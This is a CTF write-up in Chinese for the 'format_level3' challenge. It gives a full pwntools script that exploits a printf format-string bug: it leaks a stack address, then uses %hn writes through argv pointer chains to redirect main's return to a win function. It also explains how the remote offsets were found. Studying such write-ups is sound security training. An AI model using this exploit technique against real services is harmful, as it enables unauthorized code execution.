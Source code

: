 # format_level3

参考 https://www.anquanke.com/post/id/222623
```py
from pwn import *
context.arch='i386'
context.buffer_size=0x10000
p=remote("localhost",61260)
def talk(payload):
    p.sendlineafter("Your choice: ",'3')
    p.sendlineafter("Input what you want to talk: ",payload)
    sleep(1)
correct_args_offset=0xffffcea4-0xfffa5000
stack_offset=0xffffcde8-0xfffa5000
main_ret_offset=0xffffcdfc-0xfffa5000
payload='%6$p' #stack
win=0x08049317
#args: %50$p
#after modify args, main_ret:%57$p
talk(payload)
p.recvuntil(b'You said: \n')
stack=int(p.recvline(keepends=False),16)-stack_offset
main_ret=stack+main_ret_offset
#p.interactive()
args_low_payload = "%{}c%50$hn".format((main_ret & 0xffff))
talk(args_low_payload)
win_low_payload="%{}c%57$hn".format((win & 0xffff))
talk(win_low_payload)
args_high_payload = "%{}c%50$hn".format((main_ret+2 & 0xffff))
talk(args_high_payload)
win>>=16
win_high_payload="%{}c%57$hn".format((win & 0xffff))
talk(win_high_payload)
p.sendlineafter("Your choice: ",'4')
print(p.recvall())
```
个人本地和远程的args偏移不一样,所以在程序暂停在中间的interactive后（已注释）自己找的远程偏移。方法如下：先一个一个试 %xx$s（我从61往下算的，因为我发现远程%61$s是个PATH环境变量，根据本地调试结果，args应该在环境变量上面）。最后发现%57$s是args。然后发送%57$p获取此处字符串的地址。还是根据本地调试，args的三级指针应该在args字符串上面，所以继续往前找，payload %xx$s，如果找到了正确的三级指针偏移，那么%xx$s的结果就应该是%57$p给的地址的字符串形式。如0xfff13f4a->J?\xf1\xff

```
%57$s-> ./format_level3
%57$p-> 0xfff13f4a
%50$s-> J?\xf1\xff == long_to_bytes(0xfff13f4a)
```

所以%57$p是三级指针，%50$p是args

talk函数里的sleep是为了给远程缓冲区刷新的时间，context.buffer_size=0x10000为了防止影响下一次利用(不加好像出不来？)